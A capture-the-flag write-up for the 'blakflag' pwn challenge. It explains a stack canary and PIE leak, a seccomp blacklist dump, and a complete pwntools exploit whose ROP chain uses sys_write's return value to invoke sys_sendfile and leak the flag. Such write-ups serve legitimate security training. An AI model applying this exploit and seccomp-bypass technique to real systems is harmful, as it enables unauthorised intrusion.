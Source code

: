 # blakflag
### TL;DR
The original description hinted that you have to leak the flag.

`pwn, seccomp, guess`

`nc blakflag-01.pwn.beer 45243`

[binary](./chall) (`stripped`, `x64`)

* Can leak PIE and Canary -> ROP
* Seccomp blacklist
* Flag file descriptor never closed
    * `sys_sendfile` not blacklisted but need to set `rax=0x28`
    * `sys_write` gadget available and not blacklisted
        * Set `rax=0x28` using return value from `sys_write`

**SECT{bL4cKlIs7S_4Re_A_r1skY_b1znaS}**

## Walkthrough

This was a fun challenge in ROP and seccomp where you had three attempts at "guessing the flag" to the given binary:

```
$ ./chall 

 ▄█████████▄ ▄███        ▄▄████████▄ ▄███  ▄█████ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▀▀▀████ ████        ████▀▀▀████ ████▄█████▀▀  ▄▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▄▄▄███▀ ████        ████▄▄▄████ ████████▀▀    ▀▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▀▀▀███▄ ████        ████▀▀▀████ █████████▄     ▄▄▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▄▄▄████ ████▄▄▄▄▄▄▄ ████   ████ ████▀▀█████▄    ▄ ▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ██████████▀ ███████████ ████   ████ ████  ▀▀████    ▀▄ ▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀    ▀▀▀▀     ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ▄▄█████████ ▄███        ▄▄████████▄ ▄▄█████████      ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
 ████▀▀▀▀▀▀▀ ████        ████▀▀▀████ ████▀▀▀▀▀▀▀      ▀▄▄▄▄▀    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
 ████▄▄▄     ████        ████▄▄▄████ ████ ▄▄▄▄▄        ▄▄▀      ▀▀▀▀▀▀▀▀▀▀▀▄▄▄▄ 
 ████▀▀▀     ████        ████▀▀▀████ ████ ▀▀████        ▄▄                   ▀▀ 
 ████        ████▄▄▄▄▄▄▄ ████   ████ ████▄▄▄████         ▄
 ████        ███████████ ████   ████ ▀█████████▀         ▀▄
 ▀▀▀▀        ▀▀▀▀▀▀▀▀▀▀▀ ▀▀▀▀   ▀▀▀▀  ▀▀▀▀▀▀▀▀▀           ▄

flag (1/3): asd
it is not asd
flag (2/3): asd
it is not asd
flag (3/3): asd
it is not asd
```

(The binary reads the real flag from `/home/ctf/flag`)

Normal security options are enabled. Even though the output below says stack canaries are disabled, **the binary does check a canary**.
```
>>> ELF('./chall')
[!] Did not find any GOT entries
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Poking around, we see **the binary fails to null-terminate our input** and thus **leaks information**. We also trigger a stack buffer overflow:
```
flag (1/3): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
it is not AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
#OJ�GN�gm>V
flag (2/3): asd
it is not asd
flag (3/3): asd
it is not asd
*** stack smashing detected ***: <unknown> terminated
```

Interestingly enough, the stack smashing is not called until after our third guess. Perhaps we can **leak the canary in our first attempts, bypass the check and start to ROP!** After some debugging, we find that the `canary` followed by a `PIE` address lies at a 152 bytes offset from our input. 

```python
#!/usr/bin/python2

from pwn import *

p = process('./chall')
#p = remote('blakflag-01.pwn.beer', 45243)

with context.quiet:
    # Leak pie and canary (1)
    padding = "A"*152
    p.sendlineafter("flag (1/3): ", padding)
    p.recvuntil("it is not " + padding + "\n")
    leak = p.recvline()
    canary = u64(leak[0:7].rjust(8, chr(0x0)))
    pie = u64(leak[7:-1].ljust(8, chr(0x0))) - 0xf1e
    print "Got canary: %s" % hex(canary)
    print "Got pie: %s" % hex(pie)
```

```
$ ./exploit.py 
[+] Starting local process './chall': pid 19026
Got canary: 0xe5cdcf1bb16d0800
Got pie: 0x555e0b4c6000
```

Great, we can now control `rip`!

### seccomp
The binary used `seccomp` to **blacklist certain syscalls**:
<details><summary>

`read`, `open`, `mmap`, `mprotect`, `clone`, `fork`, `vfork`, `execve`,`creat`, `openat`, `execveat`.
</summary>
<p>

```
$ seccomp-tools dump ./chall
...
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x15 0x00 0x01 0x0000000a  if (A != mprotect) goto 0012
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 0012: 0x15 0x00 0x01 0x00000038  if (A != clone) goto 0014
 0013: 0x06 0x00 0x00 0x00000000  return KILL
 0014: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0016
 0015: 0x06 0x00 0x00 0x00000000  return KILL
 0016: 0x15 0x00 0x01 0x0000003a  if (A != vfork) goto 0018
 0017: 0x06 0x00 0x00 0x00000000  return KILL
 0018: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0020
 0019: 0x06 0x00 0x00 0x00000000  return KILL
 0020: 0x15 0x00 0x01 0x00000055  if (A != creat) goto 0022
 0021: 0x06 0x00 0x00 0x00000000  return KILL
 0022: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0024
 0023: 0x06 0x00 0x00 0x00000000  return KILL
 0024: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0026
 0025: 0x06 0x00 0x00 0x00000000  return KILL
 0026: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0028
 0027: 0x06 0x00 0x00 0x00000000  return KILL
 0028: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

</p>
</details>

Even though seccomp is enabled using `prctl` instead of using a lib, it makes sure to blacklist some known bypasses, such as [calling `0x40000002` instead of `0x00000002`](https://ctftime.org/task/8059) or changing the architecture during runtime.

*Shoutout to [seccomp-tools](https://github.com/david942j/seccomp-tools), a great utility!*

We notice some things here:
* `execve` etc. is disabled, meaning we are probably not supposed to spawn a shell
    * The challenge description also hinted that you're supposed to just leak the flag.
* `write` isn't blacklisted.

### ROP/recon
Recall that rdi, rsi, rdx, r10, ... are used for syscalls. We find some very neat gadgets:
```
pop r10 ; pop rdx ; pop rdi ; pop rsi ; ret <- neat!
xor rax, rax ; mov al, 1 ; syscall ; ret <- sys_write
```

So here we start googling around on how to read a file despite `seccomp` blacklists. Around the same time we also realize that **the binary never closes the flag file descriptor**. We stumble upon [this page](https://github.com/unixist/seccomp-bypass) and learn that we can use `sys_sendfile` to send data from one file descriptor to another.

But we have no gadget to set `rax` to `0x28` reliably... *Or do we?*

### Solution
After sitting in frustration for a while we remember a common behaviour from `read/write` functions: **The amount of bytes read/written are stored in the return value (`rax`)!** 

`exploit.py`

```python
#!/usr/bin/python2

from pwn import *

p = process('./chall')
#p = remote('blakflag-01.pwn.beer', 45243)

with context.quiet:
    # Leak pie and canary (1)
    padding = "A"*152
    p.sendlineafter("flag (1/3): ", padding)
    p.recvuntil("it is not " + padding + "\n")
    leak = p.recvline()
    canary = u64(leak[0:7].rjust(8, chr(0x0)))
    pie = u64(leak[7:-1].ljust(8, chr(0x0))) - 0xf1e
    print "Got canary: %s" % hex(canary)
    print "Got pie: %s" % hex(pie)

    # Place ropchain (2)
    start = pie + 0xe3a
    pop_rdx_rdi_rsi = pie + 0x0000000000000f93
    syscall_write = pie + 0x0000000000000f54
    pop_r10_rdx_rdi_rsi = pie+0x0000000000000f91
    arb_syscall = pie + 0x0000000000000f50

    p.sendlineafter("flag (2/3): ", 
        padding +
        p64(canary) + 
        ("A"*8)+
        p64(pop_rdx_rdi_rsi) +
        p64(0x28) + p64(0x2) + p64(start) +         # sys_write: Write 0x28 bytes from pointer ("start") to stderr
        p64(syscall_write) +                        # Return value (rax) is set to 0x28 
        p64(pop_r10_rdx_rdi_rsi) + 
        p64(0x40) + p64(0x0) + p64(0x1) + p64(0x3)+ # sys_sendfile: Copy 0x40 bytes from flag fd to stdout, with offset set to NULL
        p64(arb_syscall)                            # Give flag plz!
    )   

    # Use up the last attempt (3) -> trigger ropchain
    p.sendlineafter("flag (3/3): ", "Lol")
        
    p.recvuntil("SECT")
    print "SECT%s" % p.recvline()
```

```
$ ./exploit.py 
Got canary: 0x48828f9b108c7c00
Got pie: 0x55eb9c72b000
SECT{bL4cKlIs7S_4Re_A_r1skY_b1znaS}
```
